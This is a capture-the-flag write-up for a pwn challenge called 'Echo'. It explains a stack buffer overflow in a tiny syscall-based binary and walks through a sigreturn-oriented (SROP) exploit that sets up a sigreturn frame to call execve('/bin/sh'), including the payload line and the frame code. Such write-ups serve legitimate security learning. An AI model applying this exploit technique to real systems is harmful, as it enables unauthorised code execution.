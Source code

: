 ## Echo 
#### Description
tell me something to say it back

#### Author
M_alpha

#### Points and solves
485 and 45 solvers.


We are given a small binary that echos what you write to it using syscalls

The echo function:
```asm 
<+0>:     push   rbp
<+1>:     mov    rbp,rsp
<+4>:     sub    rsp,0x300
<+11>:    mov    eax,0x0
<+16>:    mov    edi,0x0
<+21>:    lea    rsi,[rsp+0x180]
<+29>:    mov    edx,0x300
<+34>:    syscall
<+36>:    mov    rdx,rax
<+39>:    mov    eax,0x1
<+44>:    mov    edi,0x1
<+49>:    syscall
<+51>:    leave
<+52>:    ret
```
In addition, the author was kind enough to include a ```/bin/sh``` in the code segment
```
0x401035 <echo+53>:     "/bin/sh"
```
### Syscall convention
Quick reminder for x86_64 syscall calling convetions, parameters are passed via ```rdi, rsi, rdx, r10, r8, r9``` and ```rax``` is used to select the syscall.
For pwning the challenge, we will use the read (```rax = 0```) and sigreturn (```rax = 0xf```) syscalls.
### The vulnerability(ies)
1. There is a very obvious buffer overflow, the read syscall will overflow the stack
since we are reading ```rdx = 0x300``` bytes into ```rsi = rsp - 0x180``` resulting in 0x180 bytes of overflow.

2. Every binary with that uses ```syscall``` should catch your attention, especially because of syscall 0x3b (```exceve```),
and the syscall 0xf ```sigreturn```.


### Pwning the binary
As I mentioned before we will be using srop to solve this challenge.
The solution splits into two phases:
### 1. Loading the srop frame into the memory:
On the first call of echo, we will prepare the stack by writing the following payload:
```0x188*b"A" + p64(elf.sym.echo) + p64(0x40101d) + bytes(frame)```.
The first 0x188 bytes are there to overflow the return address with ```echo``` function address.
When the next call of ```echo``` will return, it'll return to ```0x40101d```.
```asm
0x000000000040101d <+29>:    mov    edx,0x300
0x0000000000401022 <+34>:    syscall
```
By the point we are at ```0x40101d``` we'll have ```frame``` at the top of the stack.


The idea is, that if we can have ```rax = 0xf``` and call syscall, while having an srop frame 
one the stack, we can basically do anything.
However, this phase only loads everything on the stack, we are still missing ```rax = 0xf```


### 2. Loading ```rax = 0xf```:
The reason we return to ```echo``` a second time, is just to write 15 bytes, and by that set ```rax = 0xf```


### 3. What's in the frame:
```python
frame = SigreturnFrame(kernel ="amd64")
frame.rax = 0x3b
frame.rdi = binsh
frame.rip = 0x401022
frame.rdx = 0
```
The frame loads all the registers with the appropriate values, use sigreturn which loads ```rip``` with ```0x401022``` and ```execve(/bin/sh)```

Run it all, and get shell :)
